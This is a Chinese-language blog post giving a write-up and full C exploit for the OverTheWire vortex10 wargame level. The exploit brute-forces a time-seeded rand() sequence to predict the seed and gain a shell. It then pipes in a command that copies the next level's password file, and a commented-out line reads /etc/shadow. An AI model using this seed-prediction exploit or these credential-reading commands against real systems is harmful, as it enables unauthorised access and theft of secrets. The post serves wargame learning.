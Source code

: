 ```yaml
---
title: vortex10
author: rk700
layout: post
tags:
  - OverTheWire
  - linux
---
```

由于`time(0)`的值的大致范围是知道的，关键就是v12的值。这里`v12>>31`会得到0xffffffff或是0x0，接下来的`>>24`就会得到0xff或是0x0。于是最终范围在128-256=-128与128+256=384之间，可以穷举出来。

另一方面，我们要读他的数，并反馈。与vortex0类似，我还是不知道怎么用shell, fifo等完成。于是在c程序里fork，并用`pipe`和`dup2`等来进行父进程、子进程的数据传输。

但最后的问题是，得到shell之后如何与其交互？试了好几种方法都不行。最后在我的机子上可以再将命令从父程序通过pipe送到子程序，再输出结果。不过在ssh那里想要cat文件内容不成功，最后只好install把密码文件复制一份 

{% highlight c %}
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <time.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
    /* parent --(fd1)--> child
     * child  --(fd2)--> parent */
    int fd1[2], fd2[2];
    pipe(fd1);
    pipe(fd2);

    pid_t pid = fork();
    if(pid==0) {
        close(fd1[1]);
        dup2(fd1[0], 0);
        close(fd2[0]);
        dup2(fd2[1], 1);
        execl("./vortex10", NULL);
    }

    time_t nowT = time(0);

    close(fd1[0]);
    close(fd2[1]);

    char buf[256];
    unsigned int input[20];
    
    ssize_t numRead = 0;
    while(numRead < 202) {
        numRead += read(fd2[0], buf+numRead, sizeof buf);
    }

    fprintf(stderr, "%d bytes read\n", numRead);
    int match = sscanf(buf, "[ %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x,]",
            input+0, input+1, input+2, input+3, input+4, input+5, input+6, input+7, input+8, 
            input+9, input+10, input+11, input+12, input+13, input+14, input+15, input+16, input+17, 
            input+18, input+19);

    if(match != 20) {
        fprintf(stderr, "read error\n");
        fprintf(stderr, "%s\n", buf);
        return 1;
    }

    int i, j, k;

    time_t now;
    for(k=0; k<4; ++k) {
        now = nowT - k; 
        for(i=-128; i<384; ++i) {
            srand(now+i);
            for(j=0; j<i; ++j)
                rand();
            for(j=0; j<20; ++j) {
                if(rand() != input[j])
                    break;
            }
            if(j == 20) {
                j += now;
                fprintf(stderr, "hit, time is %d, i is %d\n", now, i);
                unsigned int ans = now+i;
                write(fd1[1], &ans, 4);
                char *cmd = "install -m444 /etc/vortex_pass/vortex11 /tmp/nabla\n";
                //char *cmd = "cat /etc/shadow\n";
                write(fd1[1], cmd, strlen(cmd));
                numRead = read(fd2[0], buf, sizeof(buf));
                buf[numRead] = 0;
                fprintf(stderr, "%s\n", buf);
                break;
            }
        }
    }
    fprintf(stderr, "end\n");
    //dup2(0, fd1[1]);
    //dup2(1, fd2[0]);

    int status;
    waitpid(pid, &status, 0);
    return 0; 

}
{% endhighlight %}